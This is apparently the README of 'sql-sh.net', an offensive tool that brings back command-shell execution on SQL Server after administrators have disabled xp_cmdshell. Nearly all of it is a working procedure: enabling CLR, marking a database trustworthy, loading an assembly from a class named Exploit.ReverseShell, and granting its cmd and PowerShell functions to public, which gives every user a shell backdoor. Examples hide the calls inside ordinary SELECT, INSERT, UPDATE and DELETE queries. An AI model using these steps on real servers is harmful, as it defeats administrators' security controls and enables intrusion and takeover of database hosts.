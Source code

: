 # sql-sh.net

Simple cmd/powershell "xp_cmdshell" replacement using SQL Server Common Language Runtime (CLR) support.  Usefull if the DBA disabled or deleted xp_cmdshell, but your connection to the dabase is running as a dbowner, or a sysadmin.

### SQL Server Prerequisites

tldr: If the server isn't setup right, and you're not connected as a sysadmin user, then this method won't work.

SQL Server 2005 introduced the integration of the CLR component of the .NET Framework.  This allows you to run .NET based application within SQL Server with the intent of expanding the functionality of SQL Server for applications.  In order to use the CLR within SQL Server, the server must be configured first, this may have already been done by some applications.

To see if CLR is already available, run ``sp_configure 'clr enabled'``.

```sql
sp_configure 'clr enabled';

name                                minimum     maximum     config_value run_value
----------------------------------- ----------- ----------- ------------ -----------
clr enabled                         0           1           0            0
```

In this case, CLR is disabled, so we need to enable it and then run ``RECONFIGURE`` to apply the change. (requires sysadmin or serveradmin role)

```sql
sp_configure 'clr enabled', 1;

Configuration option 'clr enabled' changed from 0 to 1. Run the RECONFIGURE statement to install.

RECONFIGURE;

Command(s) completed successfully.

sp_configure 'clr enabled'

name                                minimum     maximum     config_value run_value
----------------------------------- ----------- ----------- ------------ -----------
clr enabled                         0           1           1            1
```

Ok, the server is setup, now to set the db as trusted for the .NET assembly.

```sql
SELECT name, is_trustworthy_on FROM sys.databases;

name                                is_trustworthy_on
----------------------------------- -----------------
master                              0
tempdb                              0
model                               0
msdb                                1
AdventureWorks2016                  1
```

If the current database isn't listed with 1 for is_trustworthy_on, run the following to attempt to fix it (requires sysadmin role):
```sql
ALTER DATABASE [AdventureWorks2016] SET Trustworthy ON;
```

### Installing

First, the assembly needs to be added.  Normally you need to install assemblys via an exe/dll on the filesystem, but SQL Server allows you to just give it the ascii hex of the contents.  ;)  Replace the "DATEDBEEF" with the hex contents of the Exploit/bin/Release/Exploit.dll file.

```sql
CREATE ASSEMBLY [Sqlsh] FROM 0xDEADBEEF WITH PERMISSION_SET=EXTERNAL_ACCESS;
```

Then, the assembly needs to be linked to a SQL function.

```sql
CREATE FUNCTION dbo.sqlsh_cmd(@cmd NVARCHAR(max)) RETURNS NVARCHAR(max) EXTERNAL NAME [Sqlsh].[Exploit.ReverseShell].[Cmd]
CREATE FUNCTION dbo.sqlsh_psh(@cmd NVARCHAR(max)) RETURNS NVARCHAR(max) EXTERNAL NAME [Sqlsh].[Exploit.ReverseShell].[Powershell]
GRANT EXECUTE ON dbo.sqlsh_cmd TO public;
GRANT EXECUTE ON dbo.sqlsh_psh TO public;
```

### Examples

Functions are allowed in a lot of sql contexts, so there are many ways to run a script:

```sql
SELECT dbo.sqlsh_cmd('whoami');

INSERT INTO sometable (col1, col2, col3) VALUES (1, 'something', dbo.sqlsh_cmd('whoami'));

UPDATE sometable SET col3 = dbo.sqlsh_cmd('whoami') WHERE col2 = 'something';

DELETE FROM sometable WHERE col3 = dbo.sqlsh_cmd('whoami');
```

### References for SQL CLR

- https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/sql-server-common-language-runtime-integration
- https://docs.microsoft.com/en-us/sql/t-sql/statements/create-assembly-transact-sql?view=sql-server-2017
- https://docs.microsoft.com/en-us/sql/t-sql/statements/create-function-transact-sql?view=sql-server-2017



